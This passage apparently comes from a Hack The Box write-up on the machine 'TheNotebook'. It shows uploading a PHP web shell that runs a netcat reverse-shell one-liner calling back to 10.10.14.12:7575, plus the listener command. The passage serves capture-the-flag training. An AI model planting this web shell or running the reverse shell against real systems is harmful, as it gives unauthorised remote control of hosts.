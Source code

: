 Save and click view

![TheNotebook info card](assets/notebookupload3.png)

Success!

![TheNotebook info card](assets/notebookupload4.png)

Let's use a reverse shell one-liner from the reverse shell cheat sheet to get a reverse shell on the box.

### shell.php
{% highlight php %}
<?php system('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.12 7575>/tmp/f')?>
{% endhighlight %}

Set up a nc listner on port 7575

{% highlight bash %}
$ nc -lvnp 7575            
listening on [any] 7575 ...
{% endhighlight %}

Upload and visit shell.php the same way we did with test.php.
